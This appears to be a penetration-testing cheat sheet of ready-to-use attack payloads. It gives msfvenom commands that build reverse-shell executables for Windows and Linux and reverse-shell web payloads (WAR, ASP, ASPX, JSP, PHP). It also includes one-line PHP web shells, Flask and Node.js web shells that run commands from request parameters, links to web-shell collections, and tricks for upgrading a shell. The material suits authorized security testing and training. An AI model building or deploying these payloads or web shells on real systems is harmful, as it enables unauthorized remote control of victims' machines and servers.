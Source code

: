# Shell and Some Payloads
## Payload Structure - msfvenom
-> A staged payload is usually shipped in two parts. The first part contains a small primary payload that will establish a connection, transferring a larger secondary payload with the rest of the shellcode.  
e.g.  
```
windows/shell_reverse_tcp (stageless)
windows/shell/reverse_tcp (staged)
linux/shell_reverse_tcp (stageless)
linux/shell/reverse_tcp (staged)
```

## Non-Meterpreter Binaries
### Windows
#### .exe x86 staged - msfvenom (Non-Meterpreter)
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

#### .exe x64 staged - msfvenom (Non-Meterpreter)
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### .exe x86 stageless - msfvenom (Non-Meterpreter)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

#### .exe x64 stageless - msfvenom (Non-Meterpreter)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

### Linux
#### .elf x86 staged - msfvenom (Non-Meterpreter)
```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### .elf x64 staged - msfvenom (Non-Meterpreter)
```bash
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### .elf x86 stageless - msfvenom (Non-Meterpreter)
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### .elf x64 stageless - msfvenom (Non-Meterpreter)
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Web Payloads
### Java WAR - msfvenom (Non-Meterpreter)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### ASP - msfvenom (Non-Meterpreter)
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

### ASPX - msfvenom (Non-Meterpreter)
```bash
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f aspx > shell.aspx
```

### JSP - msfvenom (Non-Meterpreter)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### WAR - msfvenom (Non-Meterpreter)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### PHP - msfvenom (Non-Meterpreter) - Reverse Shell
```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
or  
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php  
- https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php

## Web Shells
### PHP 
```PHP
<?php echo shell_exec($_GET['cmd']);?>
<?php system($_GET['cmd']);?>
<?php echo exec($_GET['cmd']);?>
```

### JSP
- https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmdjsp.jsp  

or in kali
```bash
locate cmdjsp.jsp
```
### ASP
-  https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd-asp-5.1.asp  
- https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.asp  

or in kali
```bash
locate cmd-asp-5.1.asp
locate cmdasp.asp
```

### ASPX
- https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx  

or in kali
```bash
locate cmdasp.aspx
```

### Webshell Infecting views.py - Python (Flask)
```python
import os
from flask import Flask,request,os

app = Flask(__name__)
   
@app.route('/okay')
def cmd():
    return os.system(request.args.get('c'))

if __name__ == "__main__":
	app.run()
```
- https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.py

### Nodejs
```node
const express = require('express')
const app = express();

app.listen(3000, () => 
	console.log('...')
);
function Exec(command){ 
	const { execSync } = require("child_process");
	const stdout = execSync(command);
	return "Result: "+stdout
}
app.get('/okay/:command', (req, res) => 
res.send(Exec(req.params.command))
);
```
- https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.js

### Perl
-> Find and edit
```bash
locate perl-reverse-shell.pl
```

## Spawn tty via Python
```bash
python -c 'import pty;pty.spawn("/bin/bash")';
```

## Spawn an upgraded shell
```bash
export TERM=xterm && /usr/bin/script -qc /bin/bash /dev/null 
```
`ctrl + z`
```bash
stty raw -echo; fg 
```

### tools to make life easier
-> revshell generator  
- https://www.revshells.com/

-> CyberChef  
- https://gchq.github.io/CyberChef/

-> urlencoder  
- https://www.urlencoder.org/

-> octal  
- http://www.unit-conversion.info/texttools/octal/

-> hex  
- http://www.unit-conversion.info/texttools/octal/

-> IP converter  
- https://www.silisoftware.com/tools/ipconverter.php
